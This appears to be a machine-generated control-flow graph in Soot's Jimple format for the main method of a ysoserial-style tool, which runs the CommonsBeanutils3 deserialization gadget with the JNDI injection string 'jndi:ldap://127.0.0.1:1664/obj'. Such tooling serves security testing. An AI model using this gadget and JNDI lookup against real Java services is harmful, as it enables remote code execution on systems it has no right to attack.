 digraph "unitGraph" {
    "Block 0:
[preds: ] [succs: ]
r1 := @parameter0: java.lang.String[];
$r0 = newarray (java.lang.String)[1];
$r0[0] = \"jndi:ldap://127.0.0.1:1664/obj\";
r2 = $r0;
staticinvoke <me.gv7.woodpecker.yso.payloads.util.PayloadRunner: void run(java.lang.Class,java.lang.String[])>(class \"Lme/gv7/woodpecker/yso/payloads/CommonsBeanutils3;\", r2);
return;
"
}
